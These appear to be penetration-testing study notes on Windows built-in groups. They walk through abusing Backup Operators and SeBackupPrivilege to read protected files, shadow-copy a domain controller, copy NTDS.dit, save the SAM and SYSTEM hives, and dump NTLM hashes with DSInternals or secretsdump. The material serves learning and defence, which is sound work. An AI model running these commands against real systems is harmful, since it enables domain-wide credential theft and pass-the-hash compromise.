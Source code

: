 # Windows Built-in Groups


## 🏢 Windows Built-in Groups

- Windows servers and Domain Controllers have **built-in groups** that grant special rights.
- These groups exist from Server 2008 R2 onward (except Hyper-V Admins from Server 2012).
- Group membership often gives privileges useful for specific tasks (e.g., backup, printing).
- Sometimes service accounts or vendor apps are members.
- Always check group membership to identify possible privilege escalation paths.


### Important Groups to Know:
- **Backup Operators**
- Event Log Readers
- DnsAdmins
- Hyper-V Administrators
- Print Operators
- Server Operators


## 💼 Backup Operators Group & SeBackupPrivilege

- Being in **Backup Operators** gives two key privileges:
  - **SeBackupPrivilege**: Backup files/folders (read anything).
  - **SeRestorePrivilege**: Restore files/folders.

- **SeBackupPrivilege** lets you read and copy files **even if ACL denies access**.


## 🧪 Using SeBackupPrivilege to Copy Protected Files


### Step 1: Check Your Group Membership

```powershell
whoami /groups
```

Look for membership in **Backup Operators**.


### Step 2: Check if SeBackupPrivilege is Enabled

```powershell
whoami /priv
Get-SeBackupPrivilege
```

If `SeBackupPrivilege` is **Disabled**, enable it:

```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

*Note:* You may need an **elevated (admin) command prompt**.


### Step 3: Copy a Protected File Using SeBackupPrivilege Cmdlet

Example: The file `C:\Confidential\2021 Contract.txt` is denied for normal reading.

```powershell
cat 'C:\Confidential\2021 Contract.txt'
# Access denied error

Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
cat .\Contract.txt
# File content is now readable
```


## 🚨 Attacking a Domain Controller with SeBackupPrivilege


### Why Target the Domain Controller?

- The **NTDS.dit** file contains the Active Directory database with all user and computer hashes.
- It is **locked** and inaccessible normally.


### Step 1: Create a Shadow Copy with DiskShadow

```powershell
diskshadow.exe

# Inside diskshadow console:
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit
```

Now `E:` is a snapshot of the `C:` drive, including the NTDS.dit file.


### Step 2: Copy NTDS.dit Locally Using SeBackupPrivilege

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```


### Step 3: Back Up SAM and SYSTEM Registry Hives

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

These files can be used to extract local account credentials offline.


## 🔍 Extracting Credentials

- Use tools like **DSInternals PowerShell** or **Impacket secretsdump.py**.

### DSInternals example:

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=domain,DC=local' -DBPath .\ntds.dit -BootKey $key
```


### secretsdump.py example:

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

This extracts NTLM hashes which can be cracked offline or used in pass-the-hash attacks.


## 🛠 Using Robocopy in Backup Mode

Instead of external tools, use **robocopy** with the `/B` (backup mode) flag to copy locked files.

```powershell
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This copies the `ntds.dit` file from the shadow copy.

